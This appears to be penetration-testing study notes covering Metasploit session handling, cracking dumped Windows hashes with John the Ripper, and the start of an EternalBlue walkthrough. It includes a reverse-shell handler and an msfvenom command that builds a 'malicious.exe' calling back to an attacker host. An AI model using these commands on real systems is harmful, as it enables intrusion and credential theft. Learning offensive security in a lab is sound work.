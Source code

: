 

Metasploit Console job management tips:

* To list active jobs, use the `jobs` command
* To kill all jobs `jobs -k`
* To list sessions `sessions`
* To connect to a specific session `sessions 1`

Once you obtain the hashes, you can do some offline analysis. For example, `john` (John the Ripper) is a popular password cracking tool. It can take in a simple colon `user:hash` delimited list. Tip: the Vim visual block editing mode (^v) is brilliant for this. Note that `creds_all` provides 3 types of hashes, LM, NTLM and SHA1. Choose which has you want to target (e.g. LM):

    john --test    # test john is working
    john target-hashes.txt    # feed john a user:hash list

For a decent wordlist, checkout `/usr/share/wordlists/rockyou.txt` (a 300MB chunk of common password, pulled out of a case study from the infamous rockyou forum cyber incident). Feed them into John:

    john --wordlist=/usr/share/wordlists/rockyou.txt --rules hashes.txt

John will occassionally recognise hashes as the wrong type (e.g. raw MD5, LM DES, etc). John supports lots of [formats](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats), and formats can (should) be specified explicitly with the `--format` switch. To work on SHA1 hashes for example:

    john --wordlist=/usr/share/wordlists/rockyou.txt --format=lm --rules hashes-lm.txt

To show results:

    john --show hashes-lm.txt
    Administrator:VOLCANO
    FOOBAR$:


# Random Tips

OJ Reevs - maintains meterpreter - lives in QLD.
Steven Vewer - executable reflection - technique how the migrate functionality works.



# End to End SMB ExternalBlue Vunerability Walk Through

Spin up a handler:

    msfconsole
    msf > use exploit/multi/handler
    msf > set payload windows/shell/reverse_tcp
    msf > set LHOST 192.168.0.99   # the kali host

You can slowly elevate priviliges.

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.99 LPORT=4444 -f exe -o malicious.exe

Get this onto your Windows target somehow, and running. It will call back onto the listener:

